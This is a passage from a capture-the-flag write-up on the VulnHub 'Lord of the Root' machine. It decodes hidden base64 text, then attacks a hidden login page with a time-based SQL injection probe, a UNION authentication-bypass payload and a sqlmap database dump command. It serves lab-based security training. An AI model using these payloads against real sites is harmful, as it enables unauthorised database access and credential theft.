 ```
:: Progress: [18460/18460] :: Job [1/1] :: 4242 req/sec :: Duration: [0:00:04] :: Errors: 0 ::
```
- `404.html`
- `images`
- `index.html`

# Initial Foothold

## TCP/80 (HTTP) - SQLi (Blind) Database Enumeration
1. View enumerated directories
	- `index.html`
		![](Pasted%20image%2020220125013623.png)
	- `404.html`
	![](Pasted%20image%2020220125014634.png)
		- Hidden Text
	- `images`
		![](Pasted%20image%2020220125013837.png)
2. Download all images & Analyze for hidden text/file
	- Could not find any
3. Decode hidden text
	```
	┌──(root💀kali)-[~/vulnHub/Lord-of-the-root-1.0.1/192.168.236.10/exploit]
	└─# echo -n THprM09ETTBOVEl4TUM5cGJtUmxlQzV3YUhBPSBDbG9zZXIh | base64 -d
	Lzk3ODM0NTIxMC9pbmRleC5waHA= Closer!
	┌──(root💀kali)-[~/vulnHub/Lord-of-the-root-1.0.1/192.168.236.10/exploit]
	└─# echo -n THprM09ETTBOVEl4TUM5cGJtUmxlQzV3YUhBPSBDbG9zZXIh | base64 -d | base64 -d
	/978345210/index.phpbase64: invalid input
	```
	- `/978345210/index.php`
4. Proceed to `/978345210/index.php`
	![](Pasted%20image%2020220125015001.png)
5. Tried to bruteforce it, did not work
6. [Try SQLi Payloads](https://github.com/payloadbox/sql-injection-payload-list)
7. Try Time Based SQLi
	```
	'or sleep(5)#
	```
	- It worked
7. Try SQLi Auth Bypass payload
	```
	1234 ' AND 1=0 UNION ALL SELECT 'admin', '81dc9bdb52d04dc20036dbd8313ed055
	```
	![](Pasted%20image%2020220125023505.png)
	![](Pasted%20image%2020220125030816.png)
	- Successfully login, could not do anything w/ the login apge
	- Instead of Authentication Bypass, we have to enumerate the database
8. Run SQLMap
	```
	┌──(root💀kali)-[~/vulnHub/Lord-of-the-root-1.0.1/192.168.236.10/exploit/SQL]
	└─# sqlmap -r sqli.txt --dump --output-dir=$(pwd)/sqlmap -v 5
